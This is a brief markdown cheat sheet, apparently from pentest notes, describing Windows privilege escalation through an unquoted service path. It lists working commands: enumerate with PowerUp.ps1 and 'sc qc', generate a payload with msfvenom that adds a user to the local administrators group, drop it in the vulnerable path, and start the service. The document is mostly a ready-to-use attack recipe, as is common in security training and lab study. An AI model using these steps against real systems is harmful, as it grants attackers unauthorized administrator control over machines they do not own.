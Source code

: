 # Unquoted Service Path Escalation

* Run Powerup.ps1 (Example unquoted path -> C:\I\AM\VULNERABLE IT DOESN'T HAS "" Like "C:\I\AM\VULNERABLE" )
* sc qc Service
* If you notice that the “BINARY_PATH_NAME” field displays a path that is not confined between quotes.

## kali
* msfvenom -p windows/exec CMD='net localgroup administrators user /add' -f exe-service -o common.exe
* Copy the generated file, common.exe, to Windows

## Windows
* Place common.exe in ‘C:\Program Files\Unquoted Path Service’.
* Open command prompt and type: sc start service
* net localgroup administrators
